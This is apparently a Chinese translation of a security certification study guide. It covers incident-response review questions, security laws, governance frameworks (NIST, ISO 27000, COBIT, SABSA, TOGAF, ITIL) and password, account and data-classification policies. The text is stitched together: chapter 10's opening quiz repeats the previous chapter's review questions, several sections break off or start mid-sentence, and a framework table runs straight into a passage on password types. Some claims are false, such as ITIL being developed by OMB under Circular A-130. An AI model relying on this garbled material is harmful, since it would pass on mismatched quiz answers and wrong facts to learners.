|---|---|---|
| 列表 | 逆向工程技术 | |
| 列表 | 驱动安全处置的问题 | |
| 列表 | 安全处置技术 | |
| 列表 | 经验总结报告内容 | |
| 列表 | 事故总结报告内容 | |

## 定义关键术语

定义本章中的以下关键术语，并对照术表检查你的答案：

- 分段 (`segmentation`)
- 私有 `VLAN` (`PVLAN`)
- `VLAN`
- 端口安全 (`port security`)
- 隔离 (`isolation`)
- 移除 (`removal`)
- 逆向工程 (`reverse engineering`)
- 拆解 (`disassembly`)
- 反汇编 (`decompiling`)
- 调试 (`debugging`)
- 内核调试器 (`kernel debugger`)
- 用户模式调试器 (`usermode debugger`)
- 净化 (`sanitization`)
- 清除 (`clearing`)
- 净化 (`purging`)
- 破坏 (`destruction`)
- 验证 (`validation`)
- 安全信息和事件管理 (`SIEM`)
- 经验总结报告 (`lessons learned report`)
- 变更控制流程 (`change control process`)
- 事故响应计划 (`incident response plan`)
- 事故总结报告 (`incident summary report`)

## 复习题

1. 下列哪项用于在第 3 层分段？
   a. 端口安全
   b. 访问列表
   c. 阻塞的端口
   d. 断开的接口

2. 哪种分段方法对于单个受损系统效果良好，但在涉及多个设备时会变得繁琐？
   a. 逆向工程
   b. 隔离
   c. 移除
   d. 围栏 (`Fencing`)

3. 在关闭受损设备之前，应该完成以下哪项操作？
   a. 数据外泄 (`Exfiltration`)
   b. 信标行为 (`Beaconing`)
   c. 取证 (`Forensics`)
   d. 扫描

4. 下列哪项用于净化 `SSD`？
   a. 消磁 (`Degaussing`)
   b. 零填充 (`Zeroing`)
   c. 格式化
   d. 特殊命令

5. 下列项包括从介质中删除数据，使得数据无法使用常规文件恢复技术重建，但可以使用更先进的技术进行重建？
   a. 消磁
   b. 清除 (`Clearing`)
   c. 净化 (`Purging`)
   d. 破坏 (`Destruction`)

6. 你应该确保在路由器和交换机上更新以下哪项？
   a. 软件
   b. 固件
   c. 反病毒软件
   d. 应用程序

7. 下列哪项是重建设备最快的方法？
   a. 重装操作系统和应用程序。
   b. 重装操作系统和应用程序并重新配置安全设置。
   c. 使用镜像 (`imaging`)。
   d. 重装操作系统、设置安全设置并安装服务器程序。

8. 下列哪项收集所有日志，但无法使用这些信息对可能的攻击进行推断？
   a. `Syslog` 服务器
   b. `AAA` 服务器
   c. `SIEM` 系统
   d. `CRM` 服务器

9. 审查经验总结后，下列哪项最有可能更新？
   a. 事故总结报告
   b. 事故响应计划
   c. 灾难恢复计划
   d. 业务影响分析

10. 下列哪项**不会**包含在事故总结报告中？
    a. 问题何时被检测到以及由谁检测的
    b. 事故范围
    c. 如何被遏制和根除
    d. 不需要改进的领域

# 第 10 章 框架、策略、控制和程序

本章涵盖了以下主题：

## 4.0 安全架构与工具集

### 4.1 解释框架、通用策略、控制和程序之间的关系。

- **监管合规 (`Regulatory Compliance`)**：讨论了监管合规的重要性，以及该问题如何影响策略、控制和程序。
- **框架 (`Frameworks`)**：描述了可用于指导组织的安全架构框架。
- **策略 (`Policies`)**：涵盖了安全策略应涵盖的问题以及应包含的文档。
- **控制 (`Controls`)**：列出了可用于缓解漏洞的控制类型，以及指导其选择的因素。
- **程序 (`Procedures`)**：讨论了旨在支持安全策略的操作性程序。
- **验证与质量控制 (`Verifications and Quality Control`)**：描述了评估当前安全态的方法。

安全分析师必须良好了解许多组织运营的监管环境，以及该环境如何影响组织的安全策略。此外，理解已创建的最常见的安全架构框架也很重要，这些框架指导组织创建安全策略及其相关操作。安全分析师还需要理解驱动安全策略设计的架构概念。本章研究这些问题，并讨论了支持安全策略的程序以及缓解或消除漏洞的控制类型。最后，涵盖了评估组织安全态的方法。

## “我是否已经掌握了？”测验

“我是否已经掌握了？”测验让你评估是否应该阅读整个章节的内容。表 10-1 列出了“我是否已经掌握了？”中的主要标题。

| 基础主题 | 问题数量 |
|---|---|
| 监管合规 | 1 |
| 框架 | 2 |
| 策略 | 3 |
| 控制 | 4 |
| 程序 | 5 |
| 验证与质量控制 | 6 |

1. 下列项用于在第 3 层分段？
   a. 端口安全
   b. 访问列表
   c. 阻塞的端口
   d. 断开的接口

2. 哪种分段方法对于单个受损系统效果良好，但在涉及多个设备时会变得繁琐？
   a. 逆向工程
   b. 隔离
   c. 移除
   d. 围栏

3. 在关闭受损设备之前，应该完成以下哪项操作？
   a. 数据外泄
   b. 信标行为
   c. 取证
   d. 扫描

4. 下列哪项用于净化 `SSD`？
   a. 消磁
   b. 零填充
   c. 格式化
   d. 特殊命令

5. 下列项包括从介质中删除数据，使得数据无法使用常规文件恢复技术重建，但可以使用更先进的技术进行重建？
   a. 消磁
   b. 清除
   c. 净化
   d. 破坏

6. 你应该确保在路由器和交换机上更新以下哪项？
   a. 软件
   b. 固件
   c. 反病毒软件
   d. 应用程序

7. 下列哪项是重建设备最快的方法？
   a. 重装操作系统和应用程序。
   b. 重装操作系统和应用程序并重新配置安全设置。
   c. 使用镜像。
   d. 重装操作系统、设置安全设置并安装服务器程序。

8. 下列哪项收集所有日志，但无法使用这些信息对可能的攻击进行推断？
   a. `Syslog` 服务器
   b. `AAA` 服务器
   c. `SIEM` 系统
   d. `CRM` 服务器

9. 审查经验总结后，下列哪项最有可能更新？
   a. 事故总结报告
   b. 事故响应计划
   c. 灾难恢复计划
   d. 业务影响分析

10. 下列哪项**不会**包含在事故总结报告中？
    a. 问题何时被检测到以及由谁检测的
    b. 事故范围
    c. 如何被遏制和根除
    d. 不需要改进的领域

提供商。它提供了保护所有财务信息的指南，并禁止与第三方共享财务信息。该法案直接影响个人身份信息（`PII`）的安全性。

- **计算机欺诈与滥用法 (`CFAA`)**：1986年的《计算机欺诈与滥用法》（`CFAA`）影响任何可能对法案定义的“受保护计算机”进行黑客的实体。该法案在1989年、1994年和1996年进行了修订；2001年通过《统一和加强美国提供拦截和阻止恐怖主义所需工具法案》（美国爱国者法案）进行了修订；在2002年进行了修订；并在2008年通过《身份盗窃执法与赔偿法案》进行了修订。“受保护的计算机”是指金融机构或美国政府专门使用的计算机，或用于影响州际外国贸易或通信的计算机，包括位于美国境外但以影响美国州际外国贸易或通信的方式使用的计算机。由于互联网通信的跨州性质，任何普通计算机（包括手机）都属于该法律的管辖范围。该法律对黑客行为有多种定义，包括：在未经授权的情况下故意访问计算机；故意访问计算机以获取财务记录、美国政府信息或受保护的计算机信息；以及为了勒索而传输欺诈性商业通信。

- **1974年联邦隐私法：** 1974年《联邦隐私法》影响任何包含联邦机构所用记录的计算机。它对于联邦机构在记录系统中维护的关于收集、维护和分配个人身份信息（`PII`）的收集、维护、使用和传播提供了指南。

- **1978年联邦情报监视法 (`FISA`)**：1978年《联邦情报监视法》（`FISA`）影响执法和情报机构。它是首部规定了对“外国势力”与“外国势力代理”之间的“外国情报信息”进行物理和电子监视及收集程序的法案，且仅适用于美国境内的流量。该法通过2001年的《美国爱国者法案》和2008年的《`FISA`修正法案》进行了修订。

- **1986年电子通信隐私法 (`ECPA`)**：1986年的《电子通信隐私法》（`ECPA`）影响执法和情报机构。它将政府对电话窃听的限制从电话通话扩展到计算机的电子数据传输，并禁止访问存储的电子通信。该法通过1994年的《执法协助通信法案》（`CALEA`）、2001年的《美国爱国者法案》和2008年的《`FISA`修正法案》进行了修订。

- **1987年计算机安全法：** 1987年《计算机安全法》被2002年的《联邦信息安全管理法》（`FISMA`）所取代。该法案是第一部要求制定正式计算机安全计划的法律。其编写目的是保护和防御政府系统中的敏感信息，并为这些信息提供安全。它还对政府机构培训员工和识别敏感系统提出了要求。

- **1991年美国联邦量刑指南：** 1991年《美国联邦量刑指南》影响判有重罪和严重（A类）轻罪的个人和组织。它提供了指南，以防止美国范围内存在的判刑差异。

- **1994年执法协助通信法案 (`CALEA`)**：1994年《执法协助通信法案》（`CALEA`）影响执法和情报机构。它要求电信运营商和电信设备制造商修改并设计其设备、设施和服务，以确保其具有内置监视能力。这使得联邦机构能够实时监控所有的电话、宽带互联网和`IP`语音（`VoIP`）流量。

- **个人信息保护和电子文件法 (`PIPEDA`)**：《个人信息保护和电子文件法》（`PIPEDA`）影响加拿大私营部门组织在商业业务过程中收集、使用和披露个人信息的方式。该法案的目的是解决欧盟（`EU`）对加拿大个人身份信息（`PII`）安全性的担忧。法律要求组织在收集、使用或披露个人信息时获得同意，并拥有清晰、易于理解且易于获取的个人信息政策。

- **巴塞尔协议II (`Basel II`)**：巴塞尔协议II影响金融机构。它涵盖了最低资本要求、监管审查和市场纪律。其主要目的是防止银行和其他金融机构所面临的风险。

- **2002年联邦信息安全管理法 (`FISMA`)**：2002年《联邦信息安全管理法》（`FISMA`）影响每个联邦机构。它要求联邦机构制定、记录并实施全机构的信息安全计划。

- **1996年经济间谍法：** 1996年《经济间谍法》由于其法案结构，涵盖了许多问题。该法案影响拥有商业秘密的公司以及计划使用加密技术进行犯罪活动的个人。商业秘密不需要是实体的即可受此法案保护。根据法律，盗取商业秘密现在是一项联邦犯罪，美国量刑委员会必须在其报告中提供有关非法使用加密或乱码技术的特定信息。

- **美国爱国者法案：** 2001年《美国爱国者法案》影响美国的执法和情报机构。其目的是增强执法部门可以使用的调查工具，包括电子邮件通信、电话记录、互联网通信、医疗记录和财务记录。当该法案颁布时，它修订了其他法律，包括1986年的《`FISA`》和《`ECPA`》。

- 《美国爱国者法案》并不限制私人公民使用调查工具，尽管存在一些例外——例如，如果私人公民作为政府代理（即使没有正式雇佣）、如果私人公民进行了需要搜查的搜索、如果政府获了私人公民的搜索，或者私人公民正在为了帮助政府进行搜索。

- **2010年医疗与教育调解法案：** 2010年《医疗与教育调解法案》影响医疗和教育机构。该法案增加了保护医疗信息必须采取的一些安全措施。

### 员工问题与隐私预期

所有组织必须解决员工隐私问题以确保组织获得保护。然而，组织必须对可能使用的任何监视给予适当通知。组织还必须确保对员工的监视保持一致。许多组织实施“无隐私预期”政策，员工在接受适当培训后必须签署。该政策应具体描述任何不可接受的行为。公司还应记住某些行为受到宪法的保护。安全专业人员和高级管理层在设计和实施任何监视方案时应咨询法律顾问。

## 欧盟

欧盟实施了多项影响安全和隐私的法律法规。欧盟隐私原则包含了保护私有数据的严格法律。欧盟的数据保护指令为如何遵循原则中设的法律提供了指导。欧盟创建了“安全港隐私原则”，以指导美国组织遵守欧盟隐私原则。其中一些准则包括：

## 注意

不要将 *安全风港*（`safe harbor`）和 *数据避风港*（`data haven`）术语混淆。根据欧盟的标准，*安全风港*符合欧盟隐私原则所有要求的实体。*数据避风港*是指未能从法律保护个人数据的国家，其主要目的是吸引从事数据收集的公司。

欧盟电子安全指令定义了电子签名原则。在这项指令中，签名必须与签署人及其相关数据唯一关联，以便任何后续的数据更改都能被检测到。签名必须能够识别签署人。

## 框架

许多组织开发了安全管理框架和方法论以指导安全专业人员。这些框架和方法论包括安全计划开发标准、企业和安全架构开发框架、安全控制开发方法、公司治理方法以及流程管理方法。后续章节将讨论主要的框架和方法论，并解释了它们的使用场景。

## 美国国家标准与技术研究院 (`NIST`)

`NIST SP 800-53` 是美国商务部 `NIST` 机构开发的安全控制框架。`SP 800-53` 将控制分为三类：技术、运营和管理。每一类包含多个控制族或类别。表 10-2 列出了 `NIST SP 800-53` 控制族。

## 表 10-2. `NIST SP 800-53` 控制族

| 控制族 | 类别 |
| :--- | :--- |
| 访问控制 (`AC`) | 技术 |
| 意识与培训 (`AT`) | 运营 |
| 审计与问责 (`AU`) | 技术 |
| 安全评估与授权 (`CA`) | 管理 |
| 配置管理 (`CM`) | 运营 |
| 应急计划 (`CP`) | 运营 |
| 标识与身份认证 (`IA`) | 技术 |
| 事件响应 (`IR`) | 运营 |
| 维护 (`MA`) | 运营 |
| 媒体保护 (`MP`) | 运营 |
| 物理与环境保护 (`PE`) | 运营 |
| 计划 (`PL`) | 管理 |
| 计划管理 (`PM`) | 管理 |
| 人员安全 (`PS`) | 运营 |
| 风险评估 (`RA`) | 管理 |
| 系统与服务获取 (`SA`) | 管理 |
| 系统与通信保护 (`SC`) | 技术 |
| 系统与信息完整 (`SI`) | 运营 |

`NIST SP 800-55` 是一个信息安全指标框架，从美国政府的角度提供了关于开发性能测量程序的指导。

## 改进关键基础设施网络安全框架

`NIST` 在 2014 年创建了改进关键基础设施网络安全框架，或简称为 `NIST` 网络安全框架。它专门关注 `IT` 安全，由三部分组成：

- **框架核心：** 核心部分提出了五个网络安全功能，每个功能又进一步划分为子功能。它描述了这些功能的预期结果。如图 10-1 所示，每个功能都有相关的信息性参考，帮助指导完成特定功能的某个子类别任务。

## 图 10-1. 框架核心

| 功能 | 类别 | 子类别 | 信息性参考 |
| :--- | :--- | :--- | :--- |
| 识别 (`IDENTIFY`) | | | |
| 保护 (`PROTECT`) | | | |
| 检测 (`DETECT`) | | | |
| 响应 (`RESPOND`) | | | |
| 恢复 (`RECOVER`) | | | |

- **实施层级：** 这些层级是组织可以努力达到的风险管理过程中的成熟程度水平。这些层级可以作为组织风险管理过程开发中的里程碑。四个层级从低开发到高开发分别是：部分（`Partial`）、知情（`Informed`）、可重复（`Repeatable`）和适应（`Adaptive`）。
- **框架配置文件：** 配置文件可用于比较当前状态（配置文件）与目标状态（配置文件）。这使得组织能够创建一个行动计划来弥补两者之间的差距。

## `ISO`

国际标准化组织（`ISO`，通常被错误地称为国际标准组织）与国际电工技术委员会（`IEC`）合作，将英国标准 `7799` (`BS7799`) 标准化为新的全球标准，现简称为 `ISO/IEC 27000` 系列。`ISO 27000` 是一个关于如何开发和维护信息安全管理体系（`ISMS`）的安全计划开发标准。

27000 系列包含了一系列标准，每种标准都解决 `ISMS` 的特定方面。这些标准已发布或正在开发中。在编写期间，`ISO/IEC 27000` 系列包含以下标准：

- 27000：已发布的 `ISMS` 概述和术语
- 27001：已发布的 `ISMS` 要求
- 27002：已发布的信息安全控制实践规范
- 27003：已发布的 `ISMS` 实施指南
- 27004：已发布的 `ISMS` 测量指南
- 27005：已发布的信息安全风险管理指南
- 27006：已发布的提供 `ISMS` 审核和认证机构的要求
- 27007：已发布的 `ISMS` 审核指南
- 27008：已发布的 `ISMS` 审核员指南
- 27010：已发布的跨部门和跨组织通信通信信息安全管理指南
- 27011：已发布的电信信息安全
- 27013：已发布的 `ISO/IEC 27001` 和 `20000` 的实施
- 27014：已发布的信息安全
- 27015：已发布的金融服务信息安全
- 27016：已发布的 `ISMS` 经济学
- 27017：已发布的基于 `ISO/IEC 27002` 的云服务信息安全
- 27018：已发布的公有云个人身份信息 (`PII`)
- 27019：基于 `ISO/IEC 27002` 的能源过程控制 `ISMS`
- 27021：已发布的信息安全管理能力
- 27023：`ISO/IEC 27001` 和 `27002` 的修订版
- 27031：已发布的业务信息与通信技术就绪
- 27032：已发布的网络安全
- 27033-1：已发布的网络安全概述和概念
- 27033-2：已发布的网络安全设计和实施指南
- 27033-3：已发布的网络安全威胁、设计技术和控制问题指南
- 27033-4：使用安全网关的网络间通信
- 27033-5：使用私有网络 (`VPN`) 的跨网络通信
- 27033-6：已发布的无线 `IP` 网络访问
- 27034-1：已发布的应用安全概述和概念
- 27034-2：已发布的应用安全规范框架指南
- 27034-3：已发布的应用安全管理过程指南
- 27034-4：已发布的应用安全验证指南
- 27034-5：已发布的应用安全协议和控制数据结构指南
- 27034-6：已发布的特定应用程序安全指南
- 27034-7：已发布的应用安全预测
- 27035-1：已发布的信息安全事件管理原则
- 27035-2：已发布的信息安全事件响应就绪指南
- 27035-3：已发布的计算机安全事件响应小组 (`CSIRT`) 操作指南
- 27036-1：已发布的供应商关系信息安全概述和概念
- 27036-2：已发布的供应商关系信息安全通用要求指南
- 27036-3：已发布的信息与通信技术 (`ICT`) 供应链安全指南
- 27036-4：已发布的云服务安全指南
- 27037：已发布的数字证据识别、收集、获取和保护指南
- 27038：已发布的信息安全数字脱敏规范
- 27039: 已发布的入侵检测系统 (`IDS`) 选择、部署和操作指南
- 27040: 已发布的存储安全指南
- 27041: 已发布的关于确保事件调查方法适用性与充分性的指南
- 27042: 已发布的数字证据分析与解释指南
- 27043: 已发布的事件调查原则与流程
- 27044: 正在开发的安全信息和事件管理 (`SIEM`) 指南
- 27050: 正在开发的电子取证 (`eDiscovery`) 指南
- 27799: 已发布的医疗机构信息安全指南

这些标准由 `ISO/IEC` 机构制定，但认证或符合性评估由第三方提供。

注意

您可以在 `www.iso.org` 查找到更多关于 `ISO` 标准的信息。

## 信息和相关技术控制目标 (`COBIT`)

`COBIT` 是一种安全控制开发框架，它使用过程模型将 `IT`（信息技术）划分为四个领域：计划和组织 (`PO`)、获取和实施 (`AI`)、交付和支持 (`DS`) 以及监控和评估 (`ME`)，如图 10-2 所示。这些领域进一步细分为 34 个过程。`COBIT` 与 `ITIL`、`PMI`、`ISO` 和 `TOGAF` 框架对齐，主要用于私营部门。

图 10-2. `COBIT 4.0` 框架


`COBIT` 还规定了一个安全控制开发框架，记录了五个原则：

- 满足利益相关者需求
- 覆盖企业端到端
- 应用单一集成框架
- 实现整体方法
- 将治理与管理分离

这五个原则驱动了分类为七类要素的控制目标：

- 原则、策略和框架
- 过程
- 组织结构
- 文化、伦理和行为
- 信息
- 服务、基础设施和应用
- 人员、技能和胜任

## `Sherwood` 应用业务安全架构 (`SABSA`)

`SABSA` 是一种企业安全架构框架，它使用六个通信问题（什么、何地、何时、为什么、谁和如何）与六个层（操作、组件、物理、逻辑、概念和背景）相交叉。这是一种风险驱动的架构。见表 10-3。

表 10-3. `SABSA` 框架矩阵

| 视角 | 层级 | 资产 (什么) | 动机 (为什么) | 过程 (如何) | 人员 (谁) | 位置 (何地) | 时间 (何时) |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 业务 | 背景 | 业务 | 风险模型 | 过程模型 | 组织和关系关系 | 地理位置 | 时间依赖 |
| 架构师 | 概念 | 业务属性配置 | 控制目标 | 安全策略和架构分层 | 安全实体和信任框架 | 安全域模型 | 安全相关寿命和截止日期 |
| 设计师 | 逻辑 | 业务信息模型 | 安全策略 | 安全服务 | 实体模式和权限配置 | 安全域定义 | 安全处理周期 |
| 构建者 | 物理 | 业务模型 | 安全规则、惯例和程序 | 安全机制 | 用户、应用程序和接口 | 平台网络基础设施 | 控制结构执行 |
| 工匠 | 组件 | 详细数据结构 | 安全标准 | 安全工具和产品 | 身份、功能、操作和 `ACL` | 过程、节点、地址和协议 | 安全步骤计时和排序 |
| 设施经理 | 操作 | 业务连续性保障 | 运营风险管理 | 安全服务管理和支持 | 应用管理和支持 | 站点、网络和平台安全 | 安全运营计划 |

## 开放组架构框架 (`TOGAF`)

`TOGAF` 是另一种企业架构框架，帮助组织设计、计划、实施和治理企业信息架构。最新版本 `TOGAF 9.1` 于 2011 年 12 月发布。`TOGAF` 基于四个相互相关的领域：

- 业务架构：业务策略、治理、组织和关键业务流程
- 应用架构：要部署的单个系统、应用程序系统之间的相互作用，以及它们与核心业务流程的关系
- 数据架构：组织逻辑和物理数据资产的结构
- 技术架构：硬件、软件和网络基础设施

`TOGAF` 规定的架构开发方法 (`ADM`) 用于开发满足组织业务和信息技术需求的企业架构。该过程是迭代和循环的，如图 10-3 所示。每一步都会与需求核对。

图 10-3. `TOGAF ADM` 模型



## 信息技术基础设施库 (`ITIL`)

`ITIL` 是一种由管理和预算局在 `OMB` 通函 `A-130` 中制定的过程管理开发标准。`ITIL` 有五项核心出版物：`ITIL` 服务策略、`ITIL` 服务设计、`ITIL` 服务过渡、`ITIL` 服务运营和 `ITIL` 持续改进。这五个核心出版物包含 26 个过程。尽管 `ITIL` 包含安全组件，但它主要关注管理 `IT` 部门或组织与其客户之间的服务水平协议 (`SLA`)。作为 `OMB` 通函 `A-130` 的一部分，每三年应进行一次安全控制的独立审查。

表 10-4 列出了 `ITIL` 版本 3 的五个核心出版物及其包含的26 个过程。

表 10-4. `ITIL v3` 核心出版物与过程

| `ITIL` 服务策略 | `ITIL` 服务设计 | `ITIL` 服务过渡 | `ITIL` 服务运营 | `ITIL` 持续改进 |
| :--- | :--- | :--- | :--- | :--- |
| 策略管理 | | | | 持续改进 |
| | 设计协调 | 运营支持 | | |
| 财务管理 | 服务目录管理 | 事件管理 | | |
| 需求管理 | 可用性管理 | 变更管理 | | |
| 业务关系管理 | 容量管理 | 发布与部署管理 | | |
| 服务连续性管理 | 验证与测试 | | | |
| 信息安全系统 | | | | |
| 供应商管理 | | | | |

某些密码将图形作为身份验证机制的一部分。一种流行的实现方式要求用户输入图形中出现的一系列字符。这种实现方式确保了输入密码的是人类而非机器。另一种流行的实现方式要求用户从一组图中为其账户选择合适的图形。

- **数字密码**：此类密码仅包含数字。请记住，密码的选择受允许数字数的限制。例如，如果所有密码都是四位数的，那么密码的最大可能数量为 10,000 个（从 0000 到 9999）。一旦攻击者意识到只使用数字，破解密码将变得简单得多，因为攻击者知道了所有可能性。

较简单的密码类型被认为比短语（`passphrases`）、一次性密码（`OTP`）、令牌设备和登录短语更弱。一旦组织决定了使用哪种类型的密码，就必须建立其密码管理策略。


密码管理的考虑因素包括但不限于以下内容：

- **密码寿命**：密码的有效期多久。对于大多数组织来说，密码的有效期为 60 到 90 天。
- **密码历史**：密码在多久之前可以重复使用。密码策略通常会记住一定数量之前的密码。
- **身份验证期限**：用户可以保持登录状态多久。如果用户在规定时间内在没有活动的情况下保持登录，用户将被自动注销。
- **密码复杂度**：密码结构的复杂程度要求。大多数组织要求包含大写和小写字母、数字和特殊字符。以下是一些建议：
    - 密码不应包含用户名或用户全名的部分（例如其名名）。
    - 密码应使用四种可用字符类型中的至少三种：小写字母、大写字母、数字和符号。
- **密码长度**：密码必须有多长。大多数组织要求为 8 到 12 个字符。

作为密码管理的一部分，组织应该建立更改密码的程序。大多数组织实施了一项服务，允许用户在密码过期前自动重置。此外，大多数组织应该考虑建立密码重置策略，以解决用户忘记密码或密码被破解的问题。自服务密码重置方法允许用户在没有帮助台员工协助的情况下重置自己的密码。协助式密码重置方法要求用户联系帮助台人员获取帮助密码。

密码重置策略可能会受到其他组织策略的影响，例如账户锁定策略。账户锁定策略是组织实施的用于防止针对密码攻击的安全策略。组织通常会配置账户锁定策略，使得用户账户在若干次失败的登录尝试后被锁定。如果账户被锁定，系统管理员可能需要解锁或重新启用该用户账户。安全专业人员还应该考虑在账户被锁定时鼓励用户重置密码。对于大多数组织而言，所有的密码策略（包括账户锁定策略）都是在管理网络的服务器上在企业级实施的。

取决于使用哪些服务器来管理企业，安全专业人员必须意识到影响用户账户和密码管理的安全问题。两种流行的服务器操作系统是 `Linux` 和 `Windows`。

对于 `Linux`，密码存储在 `/etc/passwd` 或 `/etc/shadow` 文件中。由于 `/etc/passwd` 文件是一个可以于访问的文本文件，您应该确保任何 `Linux` 服务器都使用 `/etc/shadow` 文件，该文件中的密码可以使用哈希值（`hash`）进行保护。`Linux` 中的 `root` 用户是一个默认账户，拥有对整个服务器的管理员级权限。如果 `root` 账户被破解，则应更改所有密码。对 `root` 账户的访问应仅限于系统管理员，并且仅允许通过系统控制台登录 `root`。

对于 `Windows Server 2003` 及更早版本以及位于工作组中的所有 `Windows` 客户端版本，安全账户管理器 (`SAM`) 以哈希格式存储用户密码。它将密码存储为 `Lan Manager` (`LM`) 哈希值和/或 `New Lan Manager` (`NTLM`) 哈希值。然而，`SAM` 存在已知的安全问题，特别是关于 `LM` 哈希值，即具有能够直接从注册表中转储密码哈希值的能力。您应该采取所有微软推荐的安全措施来保护此文件。如果您管理 `Windows` 网络，你应该更改默认管理员账户的名称或将其禁用。如果保留了该账户，请确保为其分配一个密码。默认管理员账户可能对 `Windows` 服务器具有完全访问权限。

大多数版本的 `Windows` 都可以配置为在用户更改密码时禁用创建和存储有效的 `LM` 哈希值。这是 `Windows Vista` 及更高版本的默认设置，但在早期的 `Windows` 版本中该功能默认是禁用的。

## 可接受使用政策 (`AUP`)

可接受使用政策用于告知用户哪些操作是被允许的，哪些不允许。它还应该提供违反这些策略时可能导致的后果的信息。此文档应在就业过程中员工入职培训阶段由每个用户进行审查和签署。以下是 `AUP` 可能涉及的许多问题示例：


- 存储在电子和计算设备上的专有信息（无论公司、员工还是第三方拥有或租赁）仍然是公司的唯一财产。
- 员工有责任及时报告专有信息的盗窃、丢失或未经授权的泄露。
- 仅在履行职责所需的范围内允许访问、使用或共享专有信息。
- 员工负责对专有信息做出合理的判断。
- 公司保留随时审计设备、系统和网络流量的权利。
- 授权人员可以定期监控网络和系统以确保符合政策。
- 所有连接到网络的移动设备必须遵守此政策。
- 计算设备必须使用密码加密。
- 电子邮件应包含免责声明，说明其观点仅代表个人，而不一定代表公司。
- 员工在打开未知发送者的附件时必须极端小心。

## 数据所有权策略

数据所有权策略与数据分类策略（在本章后介绍）密切相关，通常这两种策略会合并。这是因为通常数据所有者负责对数据进行分类。因此，数据所有权策略涵盖了如何确定数据的所有者。大多数情况下，数据创建者是所有者，但某些组织可能认为部门创建的所有数据归部门主管所有。用户拥有数据的另一种方式是用户向组织引入其并非创建的数据，也许是从第三方购买的数据。在任何情况下，数据所有权策略都应该概述数据所有权的产生，以及所有者在确定数据分类和识别数据访问人员方面的责任。

- 数据销毁的保留期需求是什么？

最熟悉每种类型数据的人员应与安全专业人员合作，确定数据保留策略。例如，人力资源人员应帮助为所有人力资源数据设计数据保留策略。在设计数据保留策略时，组织必须考虑将用于保留数据的介质和硬件。然后，在掌握这些信息后，应起草数据保留策略并由组织和/或业务部门正式通过。

一旦制定了数据保留策略，必须对人员进行培训以遵守该策略。应配置审计和监控以确保数据保留策略的合规性。数据所有者和处理者应定期审查数据保留策略，以确定是否需要任何更改。所有数据保留策略、实施计划、培训和审计都应完整记录。

请记住，对于大多数组织来说，由于数据类型不同，实施一刀切的解决方案是不可能的。只有最熟悉每种类型数据的人才能确定数据的最佳保留策略。虽然安全专业人员应该参与数据保留策略的设计，但安全专业人员的作用是确保数据安全始终得到考虑，并确保数据保留策略满足组织需求。安全专业人员仅应担任顾问角色并在需要时提供专业知识。

## 账户管理策略

账户管理策略有助于指导身份和账户的管理。身份和账户管理对任何身份验证过程至关重要。作为安全专业人员，你必须确保组织有正式程序来控制访问凭据或身份的创建和分配。如果允许创建无效账户且不将其禁用，将会发生安全漏洞。大多数组织实施了一种审查识别和验证过程的方法，以确保用户账户是最新的。回答以下问题可能有助于该过程：

- 是否维护并批准了授权用户及其访问权限的最新列表？
- 密码是否至少每 90 天更改一次——或根据需要更早更改？
- 不活跃的用户账户是否在指定一段时间后被禁用？

任何身份管理程序都必须包括在访问控制系统中创建（配置）、更改和监控（审查）以及从该系统中移除用户（撤销）的过程。这被称为访问控制配置生命周期。在最初建立用户账户时，应要求新用户提供有效的照片身份证明，并签署一份关于密码保密性的声明。用户账户必须是唯一的。应该建立策略来标准化用户账户的结构。例如，所有用户账户都应为 `firstname.lastname` 或其他结构。这确保了组织中的用户能够确定新用户的身份，主要用于通信目的。

创建后，应监控用户账户以确保它们保持活跃状态。根据业务需求，不活跃账户应在一段时间未活动后自动禁用。此外，任何终止策略都应包含正式程序，以确保所有用户账户被禁用或删除。适当账户管理的元素包括：

- 建立建立、发放和关闭用户账户的正式流程。
- 定期审查用户账户。
- 实施跟踪访问授权的流程。
- 定期对敏感职位的人员进行重新筛选。
- 定期验证用户账户的合法性。

用户账户审查是账户管理的关键组成部分。应审查用户账户是否符合最小权限原则。该原则规定，用户只应被赋予完成工作所需的权利和权限，而不能更多。用户账户审查可以在全企业级、系统级或逐应用程序的基础上进行。组织的大小很大地影响了应该使用这些方法中的哪一种。作为用户账户审查的一部分，组织应该确定所有用户账户是否处于活跃状态。

## 数据分类策略

数据应根据其对组织的价值及其对披露的敏感性进行分类。为数据分配价值允许组织确定应该使用哪些资源来保护数据。保护数据的资源包括人员资源、资金资源和访问控制资源。对数据分类允许您应用不同的保护措施。数据分类对于所有保护数据机密性、完整性和可用性（`CIA`）的系统至关重要。

数据分类后，可以根据其所需的保护级别对数据进行分段。分类级别确保以可能最具效益的方式处理和保护数据。组织应根据组织需求确定其使用的分类级别。通常使用许多商业业务以及军事和政府信息分类。

